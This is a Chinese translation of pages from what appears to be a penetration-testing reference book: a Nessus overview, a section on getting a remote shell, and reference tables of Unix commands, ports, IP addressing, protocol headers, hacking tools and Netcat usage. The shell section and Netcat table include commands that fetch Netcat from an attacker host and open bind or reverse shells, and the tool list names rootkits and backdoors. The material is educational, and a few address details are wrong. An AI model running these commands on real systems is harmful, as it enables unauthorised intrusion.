审计大量主机的远程漏洞是一项非常艰巨的任务。Nessus 是一款安全扫描器，可用于对一组目标主机运行远程漏洞的自动化检查（见图 4-3）。尽管如今有许多商业网络扫描器，但 Nessus 值得特别提及，因为它是免费的、开源的、可靠且非常灵活的。扫描完成后，Nessus 会向客户端提供美观的漏洞报告，这些报告可以保存为包括 HTML 在内的多种格式。Nessus 可在 **http://www.nessus.org/** 获取。

Nessus 旨在支持客户端/服务器架构。Nessus 服务器 (`nessusd`) 负责对目标主机执行漏洞检查。Nessus 客户端程序 (`nessus`) 可用于连接到服务器以配置并启动检查。Nessus 客户端和服务器之间的通信是加密的。

由于 Nessus 的设计非常模块化，因此很容易编写自己的安全检查。Nessus 安全检查可以使用 C 语言或 Nessus 自己的 NASL（Nessus 攻击脚本语言）编写。有关 NASL 的详细信息，请参阅第 10 章。

## 获取 Shell

一旦攻击者通过在受害者主机上远程执行任意命令，成功利用远程服务或应用程序，他或她将希望获得一个远程 shell，以便继续利用该受害者主机。

### 使用 Netcat 获取远程 Shell

可以通过以下步骤获取远程 shell：

- 1. **上传 Netcat**：Netcat 可用于在网络上传输远程 shell。首先，你必须将 Netcat 放置在易受攻击的主机上。这可以通过在受害者主机上执行以下 `tftp` 命令来完成：

`tftp -i attacker's_ip_address nc`

为了使上述上传成功，攻击者必须运行一个可访问的 TFTP 服务器，并将 Netcat 二进制文件放置在 TFTP 主目录（通常是 `/tftpboot`）中。

除了 TFTP，还可以在受害者机器上执行 `wget` 工具，以获取放置在攻击者 Web 服务器上的 Netcat 二进制文件：

`wget http://attacker's_ip_address/nc`

或者，攻击者可以使用 FTP 命令行客户端将 Netcat 二进制文件上传到受害者主机：

`ftp -n ftpscript`

其中 `ftpscript` 是一个包含以下内容的文本文件：

`open attacker's_ftp_server_ip_address`
`user user_on_attacker's_ftp_server user_password`
`bin`
`get nc`
`bye`

这个 ftpscript 可以通过在易受攻击的主机上运行以下 `echo` 命令来创建：

`echo open attacker's_ftp_server_ip_address > ftpscript; echo user user_on_attacker's_ftp_server user_password >> ftpscript; echo bin >> ftpscript; echo get nc >> ftpscript; echo bye >> ftpscript`

- 2. **使用 Netcat**：一旦 Netcat 被放置在受害者的机器上，它就可以被用来监听任意端口，并在连接时提供一个 shell：

`./nc -e /bin/sh -l -p 9999`

现在，攻击者只需要连接到受害者的 9999 端口即可接收命令 shell：

### 参考中心

- 常用命令 ................................................. RC 2
- 常用端口 .................................................................... RC 7
- IP 地址 ............................................................ RC 9
    - 点分十进制表示法 ........................................ RC 9
    - 分类 .............................................................. RC 9
    - 子网掩码 ..................................................... RC 11
    - CIDR（无类别域间路由） .................... RC 12
    - 回环地址 ............................................................. RC 12
    - 私有地址 ................................................. RC 12
    - 协议头 ................................................. RC 12
- 在线资源 .......................................................... RC 15
    - 骇客工具 ....................................................... RC 15
    - Web 资源 ....................................................... RC 18
    - 邮件列表 .......................................................... RC 19
    - 会议与活动 ......................................... RC 19
- 有用的 Netcat 命令 ................................................. RC 20
- ASCII 表 ................................................................. RC 22
- HTTP 状态码 .................................................................. RC 28
- 重要文件 ............................................................. RC 30

## 常用命令

本节提供了最常用且实用的参考资料。如果你需要快速获取关于常用命令、常用端口、在线资源、IP 地址和有用的 Netcat 命令等主题的信息，请记得翻到本章。此外，还提供了 ASCII 码、HTTP 服务器响应表以及重要文件的权限设置。

以下是大多数 Unix 和 Linux 发行版基础安装中可以找到的最常用命令列表。有关特定命令的更多信息，请通过输入 `man command` 查看其帮助页。

| 命令 | 描述 |
| :--- | :--- |
| alias | 设置和查看命令别名。 |
| arch | 打印机器架构。 |
| awk | 模式扫描和处理语言。 |
| bash | Bourne Again SHell。 |
| bg | 将前台运行的进程移至后台。 |
| biff | 在收到邮件时发出通知。 |
| cat | 连接并打印文件。 |
| cd | 切换目录。 |
| chage | 修改用户密码过期信息。 |
| chgrp | 修改组所有权。 |
| chmod | 修改文件权限。 |
| chown | 修改文件和组所有者。 |
| chroot | 使用特殊的根目录运行命令。 |
| chsh | 修改登录 shell。 |
| clear | 清除终端屏幕。 |
| cp | 复制文件和目录。 |
| crontab | 维护 crontab 文件。 |
| csh | C shell。 |
| cut | 从文件的每行中删除部分内容。 |
| date | 打印或设置系统日期和时间。 |
| dd | 转换并复制文件。 |
| df | 打印文件系统磁盘空间使用情况。 |
| diff | 查找文件之间的差异。 |
| dig | DNS（域名系统）查询实用程序。 |
| dmesg | 打印来自系统缓冲区的诊断消息。 |
| dnsdomainname | 显示系统的 DNS（域名系统）域名。 |
| domainname | 显示系统的 NIS（网络信息服务）或 YP（黄页）名称。 |
| du | 估算文件空间使用情况。 |
| echo | 显示一行文本。 |
| env | 在修改后的环境中运行程序。 |
| false | 以指示失败的状态码退出。 |
| fdisk | 磁盘分区表操作工具。 |
| fg | 将后台运行的进程移至前台。 |
| file | 确定文件类型。 |
| find | 在目录层级中搜索文件。 |
| free | 显示系统可用和已用内存量。 |
| ftp | FTP 客户端。 |
| fuser | 识别使用文件或套接字的进程。 |
| gcc | GNU C 和 C++ 编译器。 |
| grep | 打印匹配给定模式的行。 |
| groupadd | 创建新组。 |
| groupdel | 删除组。 |
| groupmod | 修改组。 |
| groups | 打印用户所属的所有组。 |


### 参考中心

| 命令 | 描述 |
| :--- | :--- |
| gunzip | 解压缩使用 Lempel Ziv 编码压缩的文件。 |
| gzip | 使用 Lempel Ziv 编码压缩文件。 |
| host | DNS（域名系统）查询实用程序。 |
| hostname | 显示或设置系统主机名。 |
| id | 打印真实和有效用户 ID 及组 ID。 |
| ifconfig | 配置网络接口。 |
| kill | 终止进程。 |
| ksh | Korn shell。 |
| last | 显示最后登录用户的列表。 |
| lastlog | 显示账户的最后登录时间。 |
| ln | 在文件之间创建链接。 |
| ls | 列出目录内容。 |
| mail | 发送和接收邮件。 |
| man | 格式化并显示帮助手册页。 |
| mesg | 控制对终端的写入访问。 |
| mkdir | 创建目录。 |
| more | 分页显示文件内容。 |
| mount | 挂载文件系统。 |
| mv | 移动和重命名文件及目录。 |
| netstat | 打印网络连接、路由表、接口统计、伪装连接和多播成员关系。 |
| nice | 以修改后的调度优先级运行程序。 |
| nslookup | 查询 Internet 名称服务器。 |
| passwd | 更改登录和密码属性。 |
| ping | 向网络主机发送 ICMP ECHO_REQUEST。 |
| ps | 报告进程状态。 |
| pwd | 打印当前工作目录的名称。 |
| quota | 显示磁盘使用情况和限制。 |

## 常用命令

| 命令 | 描述 |
| :--- | :--- |
| quotaoff | 关闭文件系统配额。 |
| quotaon | 开启文件系统配额。 |
| repquota | 汇总文件系统的配额。 |
| rm | 删除文件或目录。 |
| rmdir | 删除空目录。 |
| route | 显示或操纵系统路由表。 |
| rpcinfo | 报告 RPC（远程过程调用）信息。 |
| sed | 流编辑器。 |
| setquota | 设置磁盘配额。 |
| showmount | 显示 NFS（网络文件系统）服务器的挂载信息。 |
| shutdown | 关闭系统。 |
| sleep | 延迟指定的时间量。 |
| sort | 对文本文件的行进行排序。 |
| strace | 跟踪系统调用和信号。 |
| strings | 打印文件中的可打印字符。 |
| su | 以替代用户和组 ID 运行 shell。 |
| tail | 输出文件的最后一部分。 |
| tar | 归档实用程序。 |
| tcsh | 具有文件名补全和命令编辑功能的 C shell。 |
| telnet | Telnet 客户端。 |
| tftp | TFTP（简单文件传输协议）客户端。 |
| traceroute | 打印数据包到达目的主机的路由。 |
| true | 以表示成功的状态码退出。 |
| umount | 卸载文件系统。 |
| uname | 打印系统信息。 |
| useradd | 创建新用户。 |
| userdel | 删除用户账户。 |
| uptime | 打印系统已运行的时间。 |
| vi | 文本编辑器。 |
| w | 显示当前登录的用户及其正在进行的操作。 |
| wall | 向每个用户的终端发送消息。 |
| wc | 打印文件中的字节数、单词数和行数。 |
| whereis | 定位命令的二进制文件、源代码和手册页文件。 |
| which | 显示命令的完整路径。 |
| who | 显示登录的用户。 |
| whoami | 打印有效用户 ID。 |
| write | 向另一个用户发送消息。 |
| ypdomainname | 显示或设置系统的 NIS（网络信息服务）或 YP（黄页）域名。 |

以下是与最常用的 Unix 和 Linux 服务相对应的端口名称和服务列表。

> 欲获取更完整的列表，请参阅 `/etc/services` 文件。

| 服务 | 端口 |
| :--- | :--- |
| Echo | 7 |
| Daytime | 13 |
| qotd (每日一句) | 17 |
| FTP-data | 20 |
| FTP | 21 |
| SSH | 22 |
| Telnet | 23 |
| SMTP (简单邮件传输协议) | 25 |
| Time server (时间服务器) | 37 |
| Whois | 43 |
| DNS (域名系统) | 53 |
| TFTP (简单文件传输协议) | 69 |
| Finger | 79 |
| HTTP (超文本传输协议) | 80 |
| POP2 (邮局协议 2) | 109 |
| POP3 (邮局协议 3) | 110 |
| Portmapper | 111 |
| Ident | 113 |
| NNTP (网络新闻传输协议) | 119 |
| NTP (网络时间协议) | 123 |
| Samba | 137–139 |
| IMAP2 (因特网消息访问协议) | 143 |
| SNMP (简单网络管理协议) | 161 |
| BGP (边界网关协议) | 179 |
| IMAP3 (因特网消息访问协议) | 220 |
| LDAP (轻量级目录访问协议) | 389 |
| HTTPS (安全超文本传输协议) | 443 |
| rlogin | 513 |
| rsh | 514 |
| Line printer (lpr) spooler (行打印机假脱机) | 515 |
| Talk | 517 |
| Time server (时间服务器) | 525 |
| NNTPS (安全网络新闻传输协议) | 563 |
| IPP (因特网打印协议) | 631 |
| LDAPS (安全轻量级目录访问协议) | 636 |
| IMAPS (安全因特网消息访问协议) | 993 |
| POP3S (安全邮局协议) | 995 |
| NFS (网络文件系统) | 2049 |
| MySQL | 3306 |
| VNC (虚拟网络计算) | 5800+ 5900+ |
| X11 | 6000–6063 |
| XFS (X 字体服务器) | 7100 |

## IP 地址分配

本节提供了关于 IP 地址分配主题的简要细节，例如 IP 地址分类以及 IP、TCP 和 UDP 的协议报头。

### 点分十进制表示法

IP 地址的长度为 32 位，例如：

`11000000 10101000 00000001 00000001`

为了方便人类阅读，IP 地址采用点分十进制表示法，例如：

`192.168.1.1`

### 分类

IP 地址被分为五个不同的类，用于分配不同规模的网络。这些类在接下来的标题下分别阐述。

#### A 类

A 类地址被分配给网络数量少且每个网络主机数量非常庞大的大型组织。请注意，A 类 IP 地址现在已不再被积极分配。


- **第一个八位组** 范围从 1 到 126。第一位始终为 0。
- **最大网络数** 网络地址由第一个八位组表示。因此，可能存在的 A 类网络最大数量为 $2^7 - 2 = 126$ 个。
- **每个网络的最大主机数** 主机由最后三个八位组表示。因此，每个网络最多可有 $2^{24} - 2 = 16,777,214$ 台主机。大多数组织远没有这么多主机，因此大部分 A 类 IP 地址经常被浪费。

#### B 类

B 类地址被分配给由大量网络和主机组成的组织。因此，许多 ISP（互联网服务提供商）被分配了 B 类地址。


- **第一个八位组** 范围从 128 到 191。前两位是 1 和 0。
- **最大网络数** 网络地址由第一和第二个八位组表示。因此，可能存在 $2^{14} = 16,384$ 个 B 类网络。
- **每个网络的最大主机数** 主机由最后两个八位组表示。因此，每个网络最多可有 $2^{16} - 2 = 65,534$ 台主机。

#### C 类

C 类地址被那些每个网络主机数量较少的组织使用。


- **第一个八位组** 范围从 192 到 233。前三位是 1, 1, 和 0。
- **最大网络数** 网络地址由第一、第二和第三个八位组表示。因此，可能存在 $2^{21} = 2,097,152$ 个 C 类网络。
- **每个网络的最大主机数** 主机由最后一个八位组表示。因此，每个网络最多可有 $2^8 - 2 = 254$ 台主机。

#### D 类

D 类是一个保留类，旨在用于向一组主机发送多播消息。


- **第一个八位组** 范围从 224 到 239。前四位是 1, 1, 1, 和 0。

#### E 类

E 类是一个保留类。互联网上没有分配属于这一类的 IP 地址。


- **第一个八位组** 范围从 240 到 255。前五位是 1, 1, 1, 1, 和 0。

### 子网掩码

网络地址和主机地址是通过使用子网掩码来识别的。*子网掩码* 是一系列与给定地址的网络部分相匹配的位。例如，以下将是一个 B 类 IP 地址的网络掩码：

```
11111111 11111111 00000000 00000000
```

上述掩码在点分十进制表示法中为 255.255.0.0。


## CIDR (无类域间路由)

由于互联网的飞速增长，仅靠上述五类别的五种 IP 分类已不足以满足众多网络方案的需求。

为了满足这一日益增长的需求而设计的 CIDR 地址使用以下述表示法 denoting：

```
PREFIX/mask
```

其中 `PREFIX` 是 IP 地址前缀，`mask` 是网络掩码的长度。例如：

```
192.168.1.0/24
```

这里，PREFIX 的长度为 24 位，而后缀为剩余的 8 位。因此，该 CIDR 类将包含以下 IP 地址：192.168.1.0~192.168.1.255。

## 回环地址 (Loopback)

以下范围被称为“回环”范围：

```
127.0.0.0/8
```

该范围用于指定本地主机的回环地址。发送到此范围内的任何数据包都将返回到发送主机。请注意，目的地为回环范围内 IP 地址的数据包不会传播到硬件网络设备，因此永远不会被放置在物理网络线路上。

## 私有地址

互联网号码分配局 (IANA) 为私有内网预留了以下三个 IP 块：

- 10.0.0.0-10.255.255.255 (CIDR 表示法: 10.0.0.0/8)
- 172.16.0.0-172.31.255.255 (CIDR 表示法: 172.16.0.0/16)
- 192.168.0.0-192.168.255.255 (CIDR 表示法: 192.168.0.0/16)

## 协议首部

RFC (Request For Comments) 文档提供了关于 TCP/IP 协议实现的详细信息。这些文档包含协议首部信息，此处列举了几个示例。

### IP (互联网协议) 首部

以下代表 IP 首部的布局。首部顶部的数字每个代表一个字节。

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|Version | IHL |Type of Service|      Total Length              |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|            Identification            |Flags| Fragment Offset  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|  Time to Live  |  Protocol  |         Header Checksum          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|                         Source Address                          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|                      Destination Address                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|            Options            |           Padding             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
```

通常，IP 首部不包含 Options 字段，因此长度为 20 字节。当 Options 字段存在时，其真实长度由 Total Length 字段表示，该字段包含整个数据包（首部和数据）的长度。更多详情请参阅 RFC 791：http://www.faqs.org/rfcs/rfc791.html。

### TCP (传输控制协议) 首部

每个 TCP 数据包都被封装在 IP 数据包的 Data 字段中，该字段紧跟在 IP 首部之后。以下代表 TCP 首部的布局。请注意，首部顶部的数字每个代表一个字节。

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|          Source Port          |       Destination Port        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|                        Sequence Number                        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|                      Acknowledgment Number                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|          |U|A|P|R|S|F|                                       |
|  Offset  |R|C|S|S|Y|I|            Window                       |
|Reserved  |G|K|H|T|N|N|                                       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|            Checksum          |       Urgent Pointer          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|            Options            |           Padding             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
|                               data                             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
```

更多详情请参阅 RFC 793：http://www.faqs.org/rfcs/rfc793.html。

### UDP (用户数据报协议) 首部

与 TCP 类似，每个 UDP 数据包也被封装在 IP 首部的 Data 字段中。以下代表 UDP 首部的布局。首部顶部的数字每个代表一个字节。

```
 0       7 8       15 16      23 24      31
+---------------+---------------+--------------+
|    Source     |   Destination  |
|     Port      |      Port       |
+---------------+---------------+--------------+
|    Length     |    Checksum     |
+---------------+---------------+--------------+
|                                              |
|            data octets ...                    |
|                                              |
+----------------------------------------------+
```

更多详情请参阅 RFC 768：http://www.faqs.org/rfcs/rfc768.html。

## 在线资源

除了本书中提到的各种在线资源外，本节还包含了一些指向其他资源的指针，可用于跟进安全领域的最新动态。

> 记得查看 http://www.hacknotes.com/ 以获取最新的安全资源。

### 骇客工具

下表列出了当今骇客最常用的流行骇客工具。本表中提到的多数工具将在本书的第一部分中被使用。同时提供了这些工具的下载网址。

| 名称 | 描述 | 位置 |
| :--- | :--- | :--- |
| Airsnort | 流行的 WEP 破解工具 (802.11b) | http://airsnort.shmoo.com/ |
| Adore | 后门 | http://www.teso.net/releases.php |
| Amap | 识别远程应用程序 | http://www.thc.org/releases.php |
| Cheops | 基于 GUI 的工具，用于识别网络上主机的信息 | http://www.marko.net/cheops/ |
| Desproxy | 命令行工具，将 TCP 流量通过 Web 代理进行隧道传输 | http://desproxy.sourceforge.net/ |
| Dsniff | 一套网络嗅探工具 | http://monkey.org/~dugsong/dsniff/ |
| Ethereal | 基于 GUI 的网络嗅探器 | http://www.ethereal.com/ |
| Ettercap | 基于 Ncurses 的网络嗅探器 | http://ettercap.sourceforge.net/ |
| Fata-Jack | 对 802.11 网络执行拒绝服务 (DoS) 攻击 | http://www.loud-flat-bloke.co.uk/w80211.html |
| Firewalk | 类似于 traceroute 的工具，用于确定网关访问控制列表 | http://www.packetfactory.net/projects/firewalk/ |
| Fragroute | 拦截、修改并重写网络流量 | http://www.monkey.org/~dugsong/fragroute/ |
| Hping2 | 命令行 TCP/IP 数据包组装器和分析器 | http://www.hping.org/ |
| Hunt | 执行 TCP 劫持 | http://lin.fsid.cvut.cz/~kra/index.html#HUNT |
| Hydra | 主动密码暴力破解工具 | http://www.thc.org/releases.php |
| John | 被动密码破解工具 | http://www.openwall.com/john/ |
| Kismet | 网络嗅探器，用于识别区域内的无线网络 | http://www.kismetwireless.net/download.shtml |
| Knark | Rootkit | http://www.packetstormsecurity.org/ |
| Linux Root Kit (LRK) | Rootkit | http://www.packetstormsecurity.org/ |
| Loki2 | 后门 | http://www.phrack.com/show.php?p=51&a=6 |
| Nemesis | 命令行网络数据包注入套件 | http://www.packetfactory.net/projects/nemesis/ |
| Nessus | 漏洞扫描器 | http://www.nessus.org/ |
| Netcat | 跨网络读写数据，支持 TCP 和 UDP 协议 | http://www.atstake.com/research/tools/network_utilities/ |
| Ngrep | 类似于 grep 命令，但用于分析网络数据包 | http://www.packetfactory.net/projects/ngrep/ |
| Nikto | Web 服务器和 Web 应用程序漏洞扫描器 | http://www.cirt.net/code/nikto.shtml |
| Nmap | 端口扫描器 | http://www.insecure.org/nmap/ |
| Openssl | 建立 SSL 连接 | http://www.openssl.org/ |
| Snmpwalk | SNMP 查询工具 | http://www.net-snmp.org/ |
| Snort | 网络嗅探器和入侵检测系统 | http://www.snort.org/ |
| Spike Proxy | HTTP 和 HTTPS 代理 | http://www.immunitysec.com/spikeproxy.html |
| Stunnel | SSL 封装器 | http://www.stunnel.org/ |
| Tcpdump | 命令行嗅探器 | http://www.tcpdump.org/ |
| Tornkit | Rootkit | http://www.packetstormsecurity.org/ |


| 名称 | 描述 | 位置 |
| :--- | :--- | :--- |
| Wget | 命令行 HTTP, HTTPS 和 FTP 客户端 | http://wget.sunsite.dk/ |
| Wlan-Jack | 对 802.11 网络执行拒绝服务 (DoS) 攻击 | http://802.11ninja.net/ |
| Xkey | 对远程 X 会话执行击键记录 | http://packetstormsecurity.org/ |
| Xprobe2 | 使用 ICMP 数据包执行操作系统指纹识别 | http://www.sys-security.com/html/tools/tools.html |
| Xremote | 向远程 X 会话发送鼠标和键盘事件 | http://www.infa.abo.fi/~chakie/xremote/ |
| Xscan | 对远程 X 会话执行击键记录 | http://packetstormsecurity.org/ |
| Xwatchwin | 监视远程 X 客户端 | http://packetstormsecurity.org/ |
| Vnccrack | 破解和暴力破解 VNC 密码 | http://www.phenoelit.de/vncrack/ |
| Whisker | Web 服务器和 Web 应用程序漏洞扫描器 | http://www.wiretrip.net/rfp/p/doc.asp/i2/d21.htm |
| Zap3 | 日志擦除工具 | http://www.packetstormsecurity.org/ |
| Zebedee | 创建安全的 TCP 和 UDP 隧道 | http://www.winton.org.uk/zebedee/ |

## Web 资源

下表提供了最受欢迎的安全相关 Web 门户的位置。建议经常访问这些资源，以便及时掌握最新的安全新闻。

| 描述 | 位置 |
|---|---|
| 新闻、文章、邮件列表、漏洞和漏洞利用数据库 | http://securityfocus.com/ |
| 新闻、工具、公告和漏洞利用 | http://packetstormsecurity.nl/ |
| 工具、文章和链接 | http://insecure.org/ |
| CERT 协调中心。漏洞事件、安全实践、统计数据和培训 | http://www.cert.org/ |
| CVE (常见漏洞披露) | http://www.cve.mitre.org/ |
| SANS (系统管理、审计、网络、安全) 学院 | http://www.sans.org/ |
| CIAC (计算机事件咨询能力) | http://www.ciac.org/ciac/ |
| 工具和论文 | http://www.packetfactory.net/ |
| 文章、公告、邮件列表和工具 | http://attrition.org/ |
| Phrack 杂志 | http://phrack.com/ |
| 2600: 黑客季刊 | http://www.2600.com/ |
| 讨论论坛、链接和下载 | http://www.antlionline.com/ |
| 漏洞披露列表 | http://www.vulnwatch.org/ |
| 文章和各种邮件列表存档 | http://www.neohapsis.com/ |
| 新闻、分析和评估 | http://internetsecuritynews.com/ |
| CERIAS (信息保证与安全教育研究中心) | http://www.cerias.purdue.edu/ |
| 新闻和文章 | http://www.hideaway.net/ |

## 邮件列表

下表提供了受欢迎的安全邮件列表的指针。建议订阅这些列表，因为它们会及时发布最新的公告和漏洞信息。

| 描述 | 资源 |
| :--- | :--- |
| Bugtraq、渗透测试、Web 应用程序安全以及许多其他列表 | http://securityfocus.com/archive |
| CERT 公告邮件列表 | http://www.cert.org/contact_cert/certmaillist.html |
| SANS (系统管理、审计、网络、安全) 通讯 | http://sans.org/sansnews |

## 会议与活动

安全会议在世界各地举行，领域内的专家将在会上展示计算机安全领域的最新动态。下表包含了受欢迎的安全会议列表。

| 描述 | 资源 |
| :--- | :--- |
| Blackhat | http://www.blackhat.com/ |
| DEF CON | http://www.defcon.org/ |
| SANS (系统管理、审计、网络、安全) | http://www.sans.org/ |
| CSI (计算机安全研究所) | http://www.gocsi.com/ |
| RSA | http://www.rsasecurity.com/company/events/index.html |

## 有用的 NETCAT 命令

Netcat 是一个命令行工具，可以使用 TCP 和 UDP 协议在网络之间读写数据。由于它能执行许多不同的功能，因此被称为“网络瑞士军刀”。下表提供了最有用 Netcat 命令的快速使用指南。

> Netcat 默认使用 TCP 协议。可以在下表中的许多命令中使用 `-u` 标志，以使 Netcat 改用 UDP。

| 描述 | 命令 |
| :--- | :--- |
| 连接到远程主机的端口 | `nc remote_host <port>` |
| 连接到远程主机的多个端口 | `nc remote_host <port>,...<port>`<br>例如：<br>`nc www.somecompanyasanexample.com 21 25 80` |
| 在端口上监听传入连接 | `nc -v -l -p <port>` |
| 连接到远程主机并提供 bash shell | `nc remote_host ip <port> -e /bin/bash`<br>请注意，Netcat 默认不支持 `-e` 标志。要使 Netcat 支持 `-e` 标志，必须使用 `GAPING_SECURITY_HOLE` 选项重新编译。 |
| 在端口上监听并在连接时提供 bash shell | `nc -v -l -p <port> -e /bin/bash`<br>请注意，Netcat 默认不支持 `-e` 标志。要使 Netcat 支持 `-e` 标志，必须使用 `GAPING_SECURITY_HOLE` 选项重新编译。 |
| 对远程主机进行端口扫描 | `nc -v -z remote_host <port>-<port>`<br>使用 `-i` 标志设置延迟间隔：<br>`nc -i <seconds> -v -z remote_host <port>-<port>` |
| 将命令输出通过管道传输到 netcat 请求 | `<command> | nc remote_host <port>`<br>例如：<br>`echo "GET / HTTP/1.0"`<br>`[enter]`<br>`[enter]`<br>`" | nc www.somecompanyasanexample.com 80` |
| 使用源路由连接到远程主机的端口 | `nc -g <gateway> remote_host <port>`<br>注意：可以使用 `-g` 标志指定最多八个跳点。使用 `-G` 标志指定源路由指针。 |
| 欺骗源 IP 地址 | 使用 **-s** 标志来欺骗源 IP 地址：<br>`nc -s spoofed_ip remote_host port`<br>该命令将导致远程主机响应回欺骗的 IP 地址。**-s** 标志可与本表中的大多数命令配合使用。 |
| 传输文件 | 在服务器主机上：<br>`nc -v -l -p <port> < <file>`<br>在客户端主机上：<br>`nc -v <server_host> <port> > <file>`<br>客户端主机也可以在端口上监听以接收文件。为此，请在客户端主机上运行以下命令：<br>`nc -v -l -p <port> > file`<br>并在服务器主机上运行以下命令：<br>`nc -v <client_host> <port> < file` |

## ASCII 表

ASCII（美国标准信息交换代码）字符集包含 128 个条目，由控制码、字母、数字和标点符号组成。下表以十进制、十六进制和八进制表示 ASCII 集。

| 十进制 | 十六进制 | 八进制 | 字符 |
|---|---|---|---|
| 0 | 00 | 000 | NUL (Null) |
| 1 | 01 | 001 | SOH (Start Of Heading) |
| 2 | 02 | 002 | STX (Start Of Text) |
| 3 | 03 | 003 | ETX (End Of Text) |
| 4 | 04 | 004 | EOT (End Of Transmission) |
| 5 | 05 | 005 | ENQ (Enquiry) |
| 6 | 06 | 006 | ACK (Acknowledge) |
| 7 | 07 | 007 | BEL (Bell) |
| 8 | 08 | 010 | BS (Back Space) |
| 9 | 09 | 011 | TAB (Horizontal) |
| 10 | 0a | 012 | LF (Line Feed) |
| 11 | 0b | 013 | VT (Vertical Tab) |
| 12 | 0c | 014 | FF (Form Feed) |
| 13 | 0d | 015 | CR (Carriage Return) |
| 14 | 0e | 016 | SO (Shift Out) |
| 15 | 0f | 017 | SI (Shift In) |
| 16 | 10 | 020 | DLE (Data Link Escape) |
| 17 | 11 | 021 | DC1 (Device Control 1) |
| 18 | 12 | 022 | DC2 (Device Control 2) |
| 19 | 13 | 023 | DC3 (Device Control 3) |
| 20 | 14 | 024 | DC4 (Device Control 4) |
| 21 | 15 | 025 | NAK (Negative Acknowledge) |
| 22 | 16 | 026 | SYN (Synchronous Idle) |
| 23 | 17 | 027 | ETB (End of Transmission Block) |
| 24 | 18 | 030 | CAN (Cancel) |
| 25 | 19 | 031 | EM (End of Medium) |
| 26 | 1a | 032 | SUB (Substitute) |
| 27 | 1b | 033 | ESC (Escape) |
| 28 | 1c | 034 | FS (File Separator) |
| 29 | 1d | 035 | GS (Group Separator) |
| 30 | 1e | 036 | RS (Record Separator) |
| 31 | 1f | 037 | US (Unit Separator) |
| 32 | 20 | 040 | 空格 |
| 33 | 21 | 041 | ! |
| 34 | 22 | 042 | " |
| 35 | 23 | 043 | # |
| 36 | 24 | 044 | $ |
| 37 | 25 | 045 | % |
| 38 | 26 | 046 | & |
| 39 | 27 | 047 | ' |
| 40 | 28 | 050 | ( |
| 41 | 29 | 051 | ) |
| 42 | 2a | 052 | * |
| 43 | 2b | 053 | + |
| 44 | 2c | 054 | , |
| 45 | 2d | 055 | - |


| 十进制 | 十六进制 | 八进制 | 字符 |
| --- | --- | --- | --- |
| 46 | 2e | 056 | . |
| 47 | 2f | 057 | / |
| 48 | 30 | 060 | 0 |
| 49 | 31 | 061 | 1 |
| 50 | 32 | 062 | 2 |
| 51 | 33 | 063 | 3 |
| 52 | 34 | 064 | 4 |
| 53 | 35 | 065 | 5 |
| 54 | 36 | 066 | 6 |
| 55 | 37 | 067 | 7 |
| 56 | 38 | 070 | 8 |
| 57 | 39 | 071 | 9 |
| 58 | 3a | 072 | : |
| 59 | 3b | 073 | ; |
| 60 | 3c | 074 | < |
| 61 | 3d | 075 | = |
| 62 | 3e | 076 | > |
| 63 | 3f | 077 | ? |
| 64 | 40 | 100 | @ |
| 65 | 41 | 101 | A |
| 66 | 42 | 102 | B |
| 67 | 43 | 103 | C |
| 68 | 44 | 104 | D |
| 69 | 45 | 105 | E |
| 70 | 46 | 106 | F |
| 71 | 47 | 107 | G |
| 72 | 48 | 110 | H |
| 73 | 49 | 111 | I |
| 74 | 4a | 112 | J |
| 75 | 4b | 113 | K |
| 76 | 4c | 114 | L |
| 77 | 4d | 115 | M |
| 78 | 4e | 116 | N |
| 79 | 4f | 117 | O |
| 80 | 50 | 120 | P |
| 81 | 51 | 121 | Q |
| 82 | 52 | 122 | R |
| 83 | 53 | 123 | S |
| 84 | 54 | 124 | T |
| 85 | 55 | 125 | U |
| 86 | 56 | 126 | V |
| 87 | 57 | 127 | W |
| 88 | 58 | 130 | X |
| 89 | 59 | 131 | Y |
| 90 | 5a | 132 | Z |
| 91 | 5b | 133 | [ |
| 92 | 5c | 134 | \ |
| 93 | 5d | 135 | ] |
| 94 | 5e | 136 | ^ |
| 95 | 5f | 137 | _ |
| 96 | 60 | 140 | ` |
| 97 | 61 | 141 | a |
| 98 | 62 | 142 | b |
| 99 | 63 | 143 | c |
| 100 | 64 | 144 | d |
| 101 | 65 | 145 | e |
| 102 | 66 | 146 | f |
| 103 | 67 | 147 | g |
| 104 | 68 | 150 | h |
| 105 | 69 | 151 | i |
| 106 | 6a | 152 | j |
